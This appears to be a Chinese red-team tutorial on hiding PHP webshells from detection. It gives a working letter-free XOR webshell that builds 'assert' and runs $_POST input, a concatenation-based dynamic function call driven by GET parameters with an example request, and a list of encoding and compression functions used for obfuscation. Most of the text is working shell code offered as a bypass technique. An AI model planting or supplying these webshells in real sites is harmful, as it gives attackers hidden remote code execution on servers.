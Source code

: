 - 没有字母，简单来说就是字母被替代了

- 就是用各种运算，例如异或，拼装出来想要的函数
- 最后能构造出a-z中任意一个字符。
- 然后再利用PHP允许动态函数执行的特点，
- 拼接处一个函数名，如“assert”，然后动态执行之即可。

参考P牛的，这个讲的已经很清楚，想了解的可以看看

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html



这是最简单、最容易想到的方法。在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了）：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



# 红队蓝军

## 简单字符串拼接

```php
<?php
$func = $_GET["func"];
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($func);
?>
```

```http
http://127.0.0.1:8081/security/bypass/test09.php?func2=sert&func=phpinfo()
```

## 利用字符串函数

一些字符串处理函数：

```php
ucwords()  //把每个单词的首字符转换为大写
ucfirst()  //首字符转换为大写
trim()  //移除字符串两侧的字符
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr()  //函数返回字符串的一部分
strtr()  //函数转换字符串中特定的字符
strtoupper()  //把所有字符转换为大写
strtolower()  //把所有字符转换为小写
strtok()  //函数把字符串分割为更小的字符串
str_rot13()  //函数对字符串执行 ROT13 编码
chr()  //从指定 ASCII 值返回字符
hex2bin() //把十六进制值转换为 ASCII 字符
bin2hex() //ASCII 字符的字符串转换为十六进制值
gzcompress()、gzdeflate()、gzencode()  //字符串压缩
gzuncompress()、gzinflate()、gzdecode()  //字符串解压
base64_encode()  //base64编码
base64_decode()  //nase64解码
pack()  //数据装入一个二进制字符串
unpack()  //从二进制字符串对数据进行解包
```
